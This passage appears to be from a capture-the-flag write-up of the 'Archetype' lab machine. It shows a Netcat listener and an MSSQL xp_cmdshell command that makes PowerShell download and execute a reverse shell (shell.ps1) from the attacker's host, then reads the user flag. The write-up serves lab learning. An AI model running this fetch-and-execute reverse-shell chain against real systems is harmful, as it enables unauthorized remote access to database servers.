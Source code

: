 In another window, we spawn a Netcat listener listening on port 443:

```console
$ nc -nlvp 443
```

> Depending on your firewall, you might need to `add a rule` so that the server can connect to your local machine.
{: .prompt-warning }


```console
$ ufw allow from 10.10.10.27 proto tcp to any port 80,443
```

Now, let's go back to our SQL terminal; we will use the `xp_cmdshell` tool we used previously. We will invoke a connection to our local HTTP server that allows us to download the reverse shell (`shell.ps1`{: .filepath}) and execute it.

The command is:

```console
$ xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.14/shell.ps1\");"
```
A shell is received as sql_svc, and we can get the `user.txt`{: .filepath} flag on their desktop.

```console
$ nc -nlvp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.27.
Ncat: Connection from 10.10.10.27:49694.
whoami
archetype\sql_svc
$ pwd
Path
----
C:\Windows\system32
$ cd C:\Users\sql_svc\Desktop
$ dir


    Directory: C:\Users\sql_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/25/2020   6:37 AM             32 user.txt
```

## Privilege Escalation
---

We already got the user-level flag. Now let's get the admin flag level.

